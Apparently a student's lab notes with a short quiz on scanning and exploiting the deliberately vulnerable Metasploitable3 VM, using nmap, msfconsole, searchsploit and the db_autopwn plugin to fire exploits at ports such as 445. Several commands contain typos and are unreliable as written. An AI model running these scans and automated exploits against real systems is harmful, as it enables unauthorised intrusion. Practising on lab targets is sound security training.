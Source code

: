 
- Scanning a target to see if it's exploitable
- Beneficial during the exploitation faze
- Metasploitable3 is based off of Windows Server 2008
- Developed by rapid7

Scan with nmap to see which hosts are up
```
nmap -sn <subnet>
```

Setup msfconsole
```
service postgresql start 
msfconsole 
setg RHOSTS <target_ip_address>
setg RHOST <target_ip_address>
```

Use msfconsole to scan target
```
db_nmap -sS -SV -O <target_ip_address>
```

Search exploit with searchsploit command
```
searchsploit "Microsoft Windows SMB" | grep Metasploit
```

Install metasploit autopwn
```
wget <autopwn_url>
mv  autopwn  /usr/share/metasploit-framework/plugins
load db_autopwn
db_autopwn
```

With autopwn show all exploits based on target ports
```
db_autopwn -t -p
```

Specify certain ports to exploit with autopwn
```
db_autpwn -p -t -PI 445
```

In msfconsole, use the analyze command on target
Use the vuln command to show vulns via msfconsole
```
analyze 
vuln
```

## Quiz

Which one of the following MSFconsole commands is used to load a custom plugin?

	load db_autopwn